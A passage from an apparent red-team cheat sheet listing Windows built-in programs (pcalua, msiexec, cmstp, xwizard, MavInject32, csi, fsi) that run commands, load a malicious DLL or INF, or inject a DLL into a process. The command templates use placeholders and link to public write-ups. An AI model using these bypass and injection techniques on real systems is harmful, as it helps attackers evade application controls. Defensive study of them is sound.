 <span id="anchor-341"></span>Run Commands with pcalua.exe

|                               |
| ----------------------------- |
| pcalua.exe -a **\<command\>** |

<span id="anchor-342"></span>Running Commands with msiexec.exe

  - [*https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/*](https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/)
    

|                                                              |
| ------------------------------------------------------------ |
| msiexec /quiet /i **\<msi\_with\_msi\_or\_png\_extention\>** |

<span id="anchor-343"></span>Running Commands with cmstp.exe

  - [*https://msitpros.com/?p=3960*](https://msitpros.com/?p=3960)
  - [*https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e*](https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e)
    

|                                         |
| --------------------------------------- |
| cmstp.exe /ni /s **\<malicious\_inf\>** |

<span id="anchor-344"></span>DLL Loading with xwizard.exe

  - [*http://www.hexacorn.com/blog/2017/07/31/the-wizard-of-x-oppa-plugx-style/*](http://www.hexacorn.com/blog/2017/07/31/the-wizard-of-x-oppa-plugx-style/)
    

|                                                                             |
| --------------------------------------------------------------------------- |
| Drop your malicious DLL into the same directory and xwizard.exe and run it. |

<span id="anchor-345"></span>DLL Injection with MavInject32.exe

|                                                                                                                              |
| ---------------------------------------------------------------------------------------------------------------------------- |
| "C:\\Program Files\\Common Files\\microsoft shared\\ClickToRun\\MavInject32.exe" **\<PID\>** /INJECTRUNNING **\<PATH DLL\>** |

<span id="anchor-346"></span>Running C\# with csi.exe (Interactive)

  - [*https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html*](https://web.archive.org/web/20161008143428/http://subt0x10.blogspot.com/2016/09/application-whitelisting-bypass-csiexe.html)
    

|                                      |
| ------------------------------------ |
| Run csi.exe and enter your C\# code. |

<span id="anchor-347"></span>Running F\# with fsi.exe (Interactive)

  - [*https://gist.github.com/NickTyrer/51eb8c774a909634fa69b4d06fc79ae1*](https://gist.github.com/NickTyrer/51eb8c774a909634fa69b4d06fc79ae1)
    